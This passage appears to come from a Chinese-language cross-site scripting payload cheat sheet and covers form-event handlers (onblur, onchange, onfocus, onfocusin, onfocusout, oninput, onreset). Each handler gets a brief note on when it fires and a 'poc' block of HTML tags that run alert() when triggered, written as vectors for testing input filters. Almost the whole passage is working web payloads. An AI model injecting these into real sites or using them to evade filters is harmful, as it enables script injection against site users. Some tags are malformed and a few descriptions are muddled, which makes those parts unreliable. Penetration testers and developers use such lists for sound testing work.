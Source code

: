 ### 表单事件

**onblur,onchange**
```
当用户离开input输入框时执行一段Javascript代码
```
poc
```
<input type="text" id="fname" onblur="alert()">
<textarea type="text"  onchange="alert(1)"></textarea>
```

**onfocus**
```
点击输入框触发
```
poc
```
<input type="text" id="fname" onfocus="alert()">
<textarea type="text"  onfocus="alert(1)"></textarea>
<body onfocus="alert(1)"></textarea>
```

**onfocusin**
```
点击输入框触发,svg点击框框即可触发,body无效。
```
poc
```
<input type="text" id="fname" onfocusin="alert()">
<textarea type="text"  onfocusin="alert(1)"></textarea>
<svg width=9999px height=9999px onfocusin="alert(1)">
```

**onfocusout**
```
当时鼠标点开输入框时触发
```
poc
```
<input type="text" id="fname" onfocusout="alert()">
<textarea type="text"  onfocusout="alert(1)"></textarea>
<svg width=9999px height=9999px onfocusout="alert(1)">
```

**oninput**
```
当用户在输入框输入时触发
```
poc
```
<input type="text" id="fname" oninput="alert()">
<textarea type="text"  oninput="alert(1)"></textarea>
<svg width=9999px height=9999px oninput="alert(1)">
```

**onreset**
```
点击按钮触发
```
poc
```
<form onreset="alert()">
	<input type="reset">
</form>
```
